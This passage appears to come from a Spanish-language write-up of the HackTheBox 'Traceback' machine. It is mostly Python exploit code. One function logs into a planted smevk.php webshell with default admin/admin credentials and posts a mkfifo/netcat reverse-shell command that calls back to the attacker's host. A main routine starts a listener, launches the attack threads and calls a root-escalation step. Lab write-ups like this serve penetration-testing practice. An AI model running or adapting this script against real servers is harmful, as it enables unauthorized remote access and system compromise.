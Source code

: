 Creamos el siguiente método para poder obtener una shell utilizando la webshell de `smevk.php`.
```python
def getShell(LHOST):

	url = "http://traceback.htb/smevk.php" #Asignamos la url.
	s = requests.session() #Guardamos la sesion.

	p1 = log.progress("Login") 
	data1={ # definimos la data.
		"uname":"admin",
		"pass":"admin",
		"login":"Login"
	}
	p1.status("Ingresando credenciales.")
	time.sleep(4)
	r1 = s.post(url,data=data1) #Enviamos la data para poder loguearnos en el la webshell.
	p1.success("Logueado correctamente.")

	p2 = log.progress("Shell")
	data2={ #Asignamos la data dos para poder enviarnos la revere shell.
		"a":"Console",
		"c":"/var/www/html",
		"p1":"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {} >/tmp/f".format(LHOST,LPORT),
		"p2":"",
		"p3":"",
		"charset":"UTF-8"
	}
	p2.status("Enviando reverse shell, por favor espere.")
	time.sleep(2)
	try:
		r2 = s.post(url,data=data2,timeout=10) #Enviamos la data para obtener una reverse shell.
	except requests.exceptions.Timeout:
		p2.success("Estamos dentro del sistema.")
```

Creamos nuestro método main para manejar el flujo de ejecución.
```python
if __name__ == "__main__":

	if(len(sys.argv) != 2): #Verifico que los argumentos que se le pasen al script sean solo 2 (nombre del script,LHOST)
		log.info("Uso: python {} <LHOST> ; ssh sysadmin@traceback.htb 'bash -p'".format(sys.argv[0]))
		sys.exit(0)

	LHOST = sys.argv[1]

	shell = listen(LPORT,timeout=20)
	try:
		threading.Thread(target=getShell(LHOST)).start() #Ejecuto en hilo el método getShell()
		threading.Thread(target=upServer).start() #De igual manera aquí.
	except Exception as e:
		log.error(str(e))

	if not (shell.sock is None): # Si recibimos una conexión entonces invocamos al método escalarRoot()
		escalarRoot(LHOST)
```

